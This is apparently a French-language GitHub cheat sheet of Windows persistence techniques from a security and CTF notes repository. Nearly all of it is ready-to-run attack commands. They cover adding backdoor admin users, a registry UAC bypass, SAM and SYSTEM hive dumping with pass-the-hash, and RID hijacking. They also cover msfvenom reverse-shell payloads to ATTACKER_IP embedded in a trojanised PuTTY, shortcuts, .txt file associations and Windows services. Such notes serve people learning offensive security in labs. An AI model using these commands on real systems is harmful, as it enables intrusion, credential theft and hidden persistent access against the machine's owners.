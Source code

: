 # Windows
Quelques techniques de persistence sur windows

## Commandes

```
evil-winrm -i <IP> -u MyUser -p MyPassword
xfreerdp /u:MyUser /p:MyPassword /v:<IP> +clipboard
```
## Sur la machine [victime]
```
net localgroup administrators MyUser /add
net localgroup "Backup Operators" MyUser /add
net localgroup "Remote Management Users" MyUser /add
```
Si winrm, pour bypass <a href="https://learn.microsoft.com/fr-fr/windows/security/application-security/application-control/user-account-control/how-it-works">UAC</a>
```
reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /t REG_DWORD /v LocalAccountTokenFilterPolicy /d 1
```

Avec un utilisateur qui a les privilèges [WinRM] <a href="https://github.com/fortra/impacket">Repo GitHub ici!</a>
```
reg save hklm\system system.bak
reg save hklm\sam sam.bak
download system.bak
download sam.bak
```
[Attaquant]
```
python3 /opt/impacket/examples/secretsdump.py -sam sam.bak -system system.bak LOCAL
evil-winrm -i 10.10.66.252 -u Administrator -H <theHash>
```
<br>
<br>

## Special Privileges and Security Descriptors

```
secedit /export /cfg config.inf
```
![image](https://github.com/LoKyOnTheCode/Securite-Informatique-et-CTF/assets/97956863/58320646-9e80-4e67-8fa1-7d529653acc9)

```
secedit /import /cfg config.inf /db config.sdb
secedit /configure /db config.sdb /cfg config.inf
```
On doit maintenant avoir les privilèges `Backup Operator`.

si utilisation de winrm, sur le GUI taper [PowerShell]
```
Set-PSSessionConfiguration -Name Microsoft.PowerShell -showSecurityDescriptorUI
```
Y ajouter l'utilisateur

## RID Hijacking
Check des utilisateurs avec leur RID
```
wmic useraccount get name,sid
```
```
PsExec64.exe -i -s regedit
```

Sous `HKLM\SAM\SAM\Domains\Account\Users\`, chercher la valeur hexadécimal qui correspond au RID de l'utilisateur souhaité. Tool en ligne pour convertir les RID en hexadécimal <a href="https://www.to-convert.com/fr/nombre/convertir-decimal-en-hexadecimal.php">ici</a>.
<br>
UNe fois qu'on a trouvé la valeur qui correspond à notre utilisateur, on ouvre le dossier pour éditer la valeur de `F` à la ligne 0030 (correspond au RID en little-endian c'est-à-dire <strong>inversé</strong>)

![image](https://github.com/LoKyOnTheCode/Securite-Informatique-et-CTF/assets/97956863/82e4b1fa-a8ed-43fe-ae39-84cc08a64fff)
<br>
On va cherché à lui donner la valeur de celui de l'administrateur à savoir RID=500 donc `01F4` (`F401` en little-endian)! 

![image](https://github.com/LoKyOnTheCode/Securite-Informatique-et-CTF/assets/97956863/bdeef6ac-10eb-479e-9173-98dbc9efaa4f)

La prochaine fois que le user se connectera LSASS associera à celui-ci, le même RID que l'administrateur !

<br>
<br>

## Executable Files

Avec `evil-winrm` télécharger en local le fichier exécutable (exemple avec PuTTY)
```
download "C:\Program Files\PuTTY\putty.exe"
```
ensuite 
```
msfvenom -a x64 -x putty.exe -k -p windows/x64/shell_reverse_tcp lhost=ATTACKER_IP lport=4444 -b "\x00" -f exe -o puttyX.exe
```
On réupload derrière
```
upload puttyX.exe
```

## Shortcut Files

Script PowerShell pour reverse shell <a href="https://github.com/martinsohn/PowerShell-reverse-shell/tree/main">ici</a>.
<br>
<br>
Créer un fichier `backdoor.ps1` par exemple ici : `C:\Windows\System32\backdoor.ps1`.
<br>
Faire propriété sur un raccourci du bureau et y coller dans `Target` :
```
Start-Process -NoNewWindow "C:\Windows\System32\backdoor.ps1 ATTACKER_IP 4445"

C:\Windows\System32\<file>.exe
```
Penser aussi à changer l'icône !
<br>
<br>
## Hijacking File Associations (exemple avec .txt)
Ouvrir `regedit.exe`
<br>
Se rendre ici 
```
HKLM\Software\Classes\.txt
```
![image](https://github.com/LoKyOnTheCode/Securite-Informatique-et-CTF/assets/97956863/d7767880-f541-4ca9-aeaa-9f197a1125b0)

Ensuite 
```
HKLM\Software\Classes\txtfile\shell\open\command
```
![image](https://github.com/LoKyOnTheCode/Securite-Informatique-et-CTF/assets/97956863/80ca377c-f582-4aa9-a851-cdd0b7e4b4ab)


On créer une backdoor.ps1 quelque part dans l'arborescence, puis on modifie la valeur `Data`
```
Start-Process -NoNewWindow "c:\Windows\System32\backdoor.ps1 ATTACKER_IP 4448"
C:\Windows\system32\NOTEPAD.EXE $args[0]
```

<br>
<br>

## Creating backdoor services

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=1337 -f exe-service -o rev-svc.exe
nc -lnvp 1337
```
[evil-winrm]
```
upload rev-svc.exe
sc.exe create MyService binPath= "C:\windows\rev-svc.exe" start= auto
sc.exe start MyService
```
<br>
<br>

## Modifying existing services
Reconnaissance
```
sc.exe query state=all
```
Interroger un service
```
sc.exe qc TheService
```
Payload
```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=5558 -f exe-service -o rev-svc2.exe
nc -lnvp 5558
```
[evil-winrm]
```
upload rev-svc2.exe
sc.exe config TheService binPath= "C:\Windows\rev-svc2.exe" start= auto obj= "LocalSystem"
sc.exe stop/start TheService
```

<br>
<br>

